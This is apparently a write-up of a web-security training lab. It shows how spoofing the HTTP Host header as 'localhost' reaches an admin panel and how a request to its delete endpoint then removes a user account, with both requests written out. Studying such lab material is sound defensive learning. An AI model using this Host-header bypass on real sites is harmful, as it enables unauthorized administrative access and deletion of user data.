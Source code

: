 
# Host header authentication bypass

This lab makes an assumption about the privilege level of the user based on the HTTP Host header.

To solve the lab, access the admin panel and delete Carlos's account.


---------------------------------------------

References: 

- https://portswigger.net/web-security/host-header/exploiting



![img](images/Host%20header%20authentication%20bypass/1.png)

---------------------------------------------

If we try to access /admin we get this error:



![img](images/Host%20header%20authentication%20bypass/2.png)


We can access using the value “localhost” in the “Host” header:

```
GET /admin HTTP/2
Host: localhost
...
```



![img](images/Host%20header%20authentication%20bypass/3.png)


And delete the user:

```
GET /admin/delete?username=carlos HTTP/2
Host: localhost
...
```



![img](images/Host%20header%20authentication%20bypass/4.png)